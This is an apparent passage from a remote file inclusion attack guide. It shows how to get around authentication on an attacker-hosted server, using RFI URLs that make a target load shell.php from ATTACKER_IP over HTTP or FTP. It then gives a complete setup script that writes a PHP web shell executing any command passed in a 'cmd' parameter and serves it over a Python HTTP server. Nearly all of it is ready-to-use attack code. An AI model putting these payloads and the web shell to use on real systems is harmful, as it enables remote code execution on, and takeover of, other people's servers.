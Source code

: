 ### Problem: Authentication required
```bash
# Issue: HTTP server requires authentication
# Solution 1: Configure server without auth
python3 -m http.server 80  # No authentication

# Solution 2: Use credentials in URL
http://target.com/lfi.php?file=http://user:pass@ATTACKER_IP/shell.php

# Solution 3: Try different protocols
ftp://user:pass@ATTACKER_IP/shell.php
```

---

## Tools and Resources

### RFI Server Setup Scripts

**HTTP Server Automation:**
```bash
cat << 'EOF' > setup_rfi_server.sh
#!/bin/bash
PORT=${1:-80}
DIR=${2:-$(pwd)}

echo "[+] Setting up RFI HTTP server..."
echo "[+] Port: $PORT"
echo "[+] Directory: $DIR"

# Create basic web shell
cat << 'SHELL' > "$DIR/shell.php"
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    echo shell_exec($_GET['cmd']);
    echo "</pre>";
} else {
    echo "RFI Web Shell - Usage: ?cmd=command";
}
?>
SHELL

echo "[+] Created shell.php"

# Start HTTP server
if [ "$PORT" -eq 80 ] || [ "$PORT" -eq 443 ]; then
    echo "[+] Starting privileged server on port $PORT"
    sudo python3 -m http.server $PORT --directory "$DIR"
else
    echo "[+] Starting server on port $PORT"
    python3 -m http.server $PORT --directory "$DIR"
fi
EOF
chmod +x setup_rfi_server.sh
```
